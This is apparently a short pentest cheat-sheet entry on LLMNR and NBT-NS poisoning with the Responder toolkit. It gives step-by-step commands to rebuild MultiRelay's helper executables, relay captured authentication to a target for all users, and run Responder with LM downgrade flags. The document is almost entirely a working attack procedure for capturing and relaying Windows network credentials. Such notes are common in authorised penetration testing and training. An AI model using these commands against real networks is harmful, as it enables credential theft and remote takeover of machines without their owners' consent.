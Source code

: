# LLMNR and NBT-NS poisonning
### Responder
1. Set up `MultiRelay.py`
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe`_ - in case it doesn't work initially
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe`_ - in case it doesn't work initially
   * _`x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`_
   * _`x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`_
   * **`python3 /usr/share/responder/tools/MultiRelay.py -t <target> -u ALL`**</br>
      - where `-u ALL` -> users
2. Run `Responder`
   * `responder -I <interface> -rdwv --lm`


## Cool resources
